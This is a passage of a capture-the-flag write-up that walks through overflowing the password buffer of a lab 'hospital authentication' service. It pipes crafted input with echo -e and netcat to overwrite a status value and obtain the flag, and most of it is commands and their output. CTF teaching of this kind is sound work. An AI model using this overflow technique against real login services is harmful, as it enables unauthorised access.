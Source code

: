 Now that we know our length of input is correct, we can test what exactly alters the status number. By changing the very last character, our status changes.

```
Password: ccccccccccccccccccccccccccccb

Your current status is 98
Sorry, the status is incorrect
```

What we now know is that the 29th character is what we have to use to get us the status we need. Our only problem is that the normal ASCII table only goes up to 126. Can we use the Extended ASCII table?

```
Password: ccccccccccccccccccccccccccccÉ

Your current status is 35267
Sorry, the status is incorrect
```

Unfortunately, no. Is there any other way to make that character?

`$ echo -e "\x90"`

Output:

```
É
```

Now we have a way to create that character, so if we echo it normally into netcat will it run just fine?

`$ echo "bbbbbbbbbbbbbbbbbbbbbbbbbbbbb" | nc 10.13.37.3 7777`

Output:

```
Welcome to the East Coast Hospital authentication system. There is only one password for this box. You can tell if you got the password correct because the status will be 144 (In decimal), and it will give you the flag. The password is at most 15 characters.
Password: 
Your current status is 98
Sorry, the status is incorrect
```

We just proved that we can pipe the echo of a normal input into netcat, so if we add the -e flag we can replace the final character with the hex character that we need in order to get the final flag.

`$ echo -e "bbbbbbbbbbbbbbbbbbbbbbbbbbbb\x90" | nc 10.13.37.3 7777`

Output:

```
Welcome to the East Coast Hospital authentication system. There is only one password for this box. You can tell if you got the password correct because the status will be 144 (In decimal), and it will give you the flag. The password is at most 15 characters.
 Password: 
Your current status is 144
XXmUBaC2fJFb4S7U
```

